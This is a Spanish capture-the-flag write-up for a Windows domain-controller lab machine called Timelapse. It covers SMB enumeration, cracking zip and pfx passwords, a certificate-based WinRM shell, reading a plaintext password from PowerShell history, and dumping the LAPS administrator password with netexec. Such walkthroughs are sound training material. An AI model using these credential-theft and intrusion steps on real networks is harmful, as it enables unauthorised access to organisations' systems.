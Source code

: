 # Timelapse

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FUX8f4cQMP0lzRlzPKfy6%2FTimelapse.png?alt=media&#x26;token=23875d92-3665-4aa4-99da-8c9ecf64aa3c" alt=""><figcaption></figcaption></figure>

## Enumeración

```bash
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-05-08 05:55:02Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-05-08T05:56:42+00:00; +1h42m16s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49695/tcp open  msrpc             Microsoft Windows RPC
49727/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1h42m13s, deviation: 3s, median: 1h42m10s
| smb2-time: 
|   date: 2025-05-08T05:55:57
|_  start_date: N/A
```

### SMB

El servicio smb permite el acceso sin credenciales, podemos corroborarlo con este comando:\\

```bash
netexec smb timelapse.htb -u '' -p ''
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FQlNbQdJ4xiRvjs1Y2qjd%2Fimage.png?alt=media&#x26;token=bca84ef8-040f-4b12-b78e-26c2c654a026" alt=""><figcaption></figcaption></figure>

Ahora con smbmap podemos enumerar que hay ahí dentro:

```bash
smbmap -H timelapse.htb -u 'a' -p ''
```

Podemos ver que tenemos acceso de lectura a un recurso compartido llamado SHARES:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDiHxlXqbpnXw2I1dkWPS%2Fimage.png?alt=media&#x26;token=0f497788-790d-4496-a630-bf3e0a934e3a" alt=""><figcaption></figcaption></figure>

Si enumeramos mas en profundidad ese recurso compartido podremos ver 2 carpetas dentro:

```bash
smbmap -H timelapse.htb -u 'a' -p '' -r Shares
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F3AgG9GFqJMdo8uUkBmWO%2Fimage.png?alt=media&#x26;token=48abff6b-a825-4fd6-9aa4-8b2be407c89a" alt=""><figcaption></figcaption></figure>

El si enumeramos cada uno podemos ver como la carpeta Dev tiene el archivo `winrm_backup.zip`

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fkwlmwml8JS3BybopM1jV%2Fimage.png?alt=media&#x26;token=40678717-cf73-45c1-a891-d4bba459b2df" alt=""><figcaption></figcaption></figure>

Vamos a llevarnos este archivo a nuestro equipo local y vamos a descomprimirlo:

```bash
smbclient \\\\timelapse.htb\\Shares\\Dev
smb:> get winrm_backup.zip
```

## Explotación

### ZIP

Si intentamos extraer el archivo podemos ver que está protegido por contraseña

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fq4nsXezGqOQzW1eAUK2Q%2Fimage.png?alt=media&#x26;token=7fc26234-22b1-49a3-943f-6e20b8d907d4" alt=""><figcaption></figcaption></figure>

Con zip2john podemos tratar de conseguir un hash crackeable y crackearlo offline.

```
zip2john winrm_backup.zip > hash.txt
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FPR1B7FKFwRthNESKwjte%2Fimage.png?alt=media&#x26;token=5ae9b7cc-1094-4a09-a84e-348392aad43b" alt=""><figcaption></figcaption></figure>

### PFX

Esto nos va a extraer un archivo `.pfx` llamado `legacyy_dev_auth.pfx` . Los archivos pfx son la fusión de 2 archivos, un certificado digital y su clave privada.

Usamos el siguiente comando para sacar ambos archivos del pfx:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -out priv-key.pem -nodes
```

Nos vuelve a pedir contraseña por que las claves privadas tienen contraseña y estamos pidiendo con el argumento -nodes que nos la extraiga sin contraseña.

Podemos intentar volver a romperla con john de la misma manera que antes:

```bash
pfx2john legacyy_dev_auth.pfx > hash.txt
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FegXCKtMt8IauiqGW9z3A%2Fimage.png?alt=media&#x26;token=abacb137-b261-4bf2-9202-ebc5077b1936" alt=""><figcaption></figcaption></figure>

y ahora ya podremos extraer el certificado y la clave:\\

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificado.pem -nodes
(sacamos certificado)
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out clave.pem -nodes
(sacamos clave)
```

Ahora que tenemos el certificado y la clave podemos intentar conectarnos por Remote Management a ver si funciona.

```bash
evil-winrm -i 10.10.11.152 -c certificado.pem -k clave.pem -S
```

> el argumento -S es porque queremos autenticarnos contra el winrm del puerto 4896 y no el del 4895

Y tendrémos una shell con el usuario legacy! Ahora podemos ver la user.txt

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FqziOvtgs3lxDPUSlZQ2A%2Fimage.png?alt=media&#x26;token=22356d02-17c9-4c33-b7c3-b2b6d17c1d9d" alt=""><figcaption></figcaption></figure>

## Escalada

### Enumeración de usuarios

Ahora que  tenemos una shell podemos con net users ver los usuarios y investigar un poco:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FEen9y2vkxaGWZQvZ9W4V%2Fimage.png?alt=media&#x26;token=a91ae01f-e5a5-44b4-86fc-3e93365aacfb" alt=""><figcaption></figcaption></figure>

Si inspeccionamos un poco los usuarios con `net user`  podemos ver que el usuario svc\_deploy está en un grupo llamado `LAPS_Readers` .&#x20;

LAPS (Local Administrator Password Solution) es una herramienta de Microsoft que permite gestionar y hacer copias de seguridad de las contraseñas de las cuentas de administrador local en equipos que están unidos a un dominio de Active Directory. Como se puede observar, suena a que es un grupo crítico.

Existen herramientas para explotar usuarios con este grupo pero necesitamos las credenciales de ese usuario primero.

### Historial de PowerShell

SI miramos el historial de PowerShell del usuario legacy podemos observar la contraseña del usuario svc\_deploy:

```bash
type C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FnvXTY1V59haWizRPNTk8%2Fimage.png?alt=media&#x26;token=5b8497ee-64c3-4f32-820b-b1f581a59902" alt=""><figcaption></figcaption></figure>

Comprobamos si las credenciales son correctas:

```bash
netexec ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FsXQOW7kqhGYKniTtYLvL%2Fimage.png?alt=media&#x26;token=2ae7ab93-b46b-4b71-9e76-0dfc9091ba98" alt=""><figcaption></figcaption></figure>

Y efectivamente es valido. Ahora que ya tenemos las credenciales de su usuario ya podemos empezar a explotar el LAPS.

### LAPS

Como había mencionado anteriormente hay herramientas especificas que explotan esto pero `netexec`  ya ofrece esa función así que vamos a utilizarlo:

```bash
netexec ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```

> La clave está en el parametro -M que es para indicar un modulo, y ahí ponemos el modulo laps que trae incluido netexec.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FVYXN4f8SWXY0kyviF1bK%2Fimage.png?alt=media&#x26;token=11d2651c-0ec4-4295-8e72-8c3a0e4a1d6b" alt=""><figcaption></figcaption></figure>

Como podemos ver nos ha dumpeado una contraseña, que muy seguramente sea del administrador, vamos a comprobarlo:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FvFr2yumeI7Pq5QaZikyC%2Fimage.png?alt=media&#x26;token=c593a464-68b8-46ec-97d2-3486170e9211" alt=""><figcaption></figcaption></figure>

Y efectivamente, ahora vamos a intentar a ver si podemos conectarnos pon winrm para obetener una shell:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FhoJTl36AuPDi6lZddjlN%2Fimage.png?alt=media&#x26;token=2a12a67e-e29a-4a8e-985a-790a370da894" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F1YWcaHZ5QJE6dRzT8sQr%2Fimage.png?alt=media&#x26;token=2c2a7f29-b6e1-4a8c-abe4-89f01e8abb4a" alt=""><figcaption></figcaption></figure>

Ahora ya tenemos acceso a `root.txt`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fwe3JAxsebo3hCLTvbple%2Fimage.png?alt=media&#x26;token=028bfd7b-a9c2-4ef7-b842-c0089d685817" alt=""><figcaption></figcaption></figure>

Y así la maquina estará Pwned! Gracias por leer!
